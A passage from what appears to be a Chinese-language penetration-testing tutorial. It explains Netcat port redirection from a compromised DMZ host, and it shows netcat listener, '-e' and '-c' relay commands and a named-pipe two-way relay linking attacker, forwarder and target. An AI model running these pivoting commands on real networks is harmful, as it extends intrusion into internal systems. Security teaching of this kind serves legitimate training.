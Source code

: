 ## 示例 1–简单端口重定向

例如，如果您在**非军事区**（**DMZ**中的破坏了网络外部的系统，并且需要能够从远程位置与内部系统通信，则可以使用简单端口重定向。

在 DMZ 中的受损系统上，配置 Netcat 实例以侦听传入命令，并使用以下命令将其转发给目标：

```
root@kali:~# nc -l -p 44444 -e <TAGET IP> 444

```

此命令将调用 Netcat（`nc`）监听（`-l`）传入流量，并执行（`-e`）将此传入流量传输到端口`444`上的目标。端口不是固定的，并且侦听/转发主机和最终目标上的端口不必相同。

如果缺少有关目标内部网络的完整信息，可以尝试以下命令：

```
root@kali:~# nc -l -p <local listening port> -c "nc <TARGET IP> 
  <TARGET port> 

```

此命令将 Netcat 的本地（攻击者）实例设置为在指定端口上侦听（`-l`，然后指示 Netcat 使用每个新连接创建新进程（`-c`。

这个简单的例子允许外部人员连接到直接网络；但是，它不允许双向数据连接，这是某些工具所必需的。

## 示例 2–双向端口重定向

考虑三个单独的 Windows 数据系统：

[攻击者]|[转发器]|[目标]

为了使用 Netcat 启用双向通信通道，我们必须使用命名管道。命名管道（也称为 FIFO）是创建定义的进程间通信的一种方法；这允许我们将其作为对象处理，从而在发出命令时更易于管理。在下面的示例攻击中，我们创建了一个名为`reverse`的命名管道来处理双向通信。

攻击者使用以下命令将其本地系统上的 Netcat 实例设置为侦听端口`6661`：

```
nc -l 6661

```

转发器是一个安装了 Netcat 实例的受损盒子，它将侦听传入的数据包并将其转发给目标；配置为使用以下命令监听端口`6666`：

```
nc -l 6666

```

在目标系统上，输入以下命令以创建命名管道：

```
mkfifo reverse

```

然后，使用以下命令配置 Netcat 的本地实例，以使用该命名管道跨转发系统与攻击者建立双向通信：

```
nc localhost 6661 0<reverse | nc localhost 6666 1>reverse

```
